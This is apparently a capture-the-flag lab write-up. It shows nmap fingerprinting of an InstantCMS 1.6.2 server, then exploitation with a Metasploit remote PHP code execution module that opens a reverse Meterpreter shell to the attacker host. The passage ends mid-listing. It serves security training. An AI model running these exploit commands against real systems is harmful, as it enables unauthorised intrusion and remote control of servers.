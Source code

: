 ```
829ea1f5a92580f0484cd32a6ef09d25
```

## Vulnerable CMS
>The target machine is running an outdated Content Management System (CMS) which is vulnerable to a publicly known vulnerability.
In this challenge, the attacker has to fingerprint the CMS and exploit it using the appropriate Metasploit module.

Same as before, my methodology will be to conduct reconaissance, find and weaponize an exploit, and deliver a payload. This time, though, I needed to leverage nmap's scripting engine, using the _-A_ flag to specify to use the default scripts and also perform a banner grab.
```
root@attackdefense:~# nmap -A 192.7.230.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-06 23:16 IST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for target-1 (192.7.230.3)
Host is up (0.000087s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: InstantCMS - www.instantcms.ru
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: InstantCMS 1.6.2
...
```

Booting up the Metasploit console, it's trivial to find the right exploit.

```
msf5 > search InstantCMS

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/instantcms_exec  2013-06-26       excellent  Yes    InstantCMS 1.6 Remote PHP Code Execution
```

As before, setting the appropriate options and firing it off is enough to get the flag.

```
msf5 exploit(unix/webapp/instantcms_exec) > set rhost 192.7.230.3
rhost => 192.7.230.3
msf5 exploit(unix/webapp/instantcms_exec) > set lhost 192.7.230.2
lhost => 192.7.230.2
msf5 exploit(unix/webapp/instantcms_exec) > run

[*] Started reverse TCP handler on 192.7.230.2:4444 
[*] Executing payload...
[*] Sending stage (38288 bytes) to 192.7.230.3
[*] Meterpreter session 1 opened (192.7.230.2:4444 -> 192.7.230.3:42126) at 2020-04-06 23:18:53 +0530

meterpreter > ls
Listing: /var/www/html
======================

Mode              Size   Type  Last modified              Name
```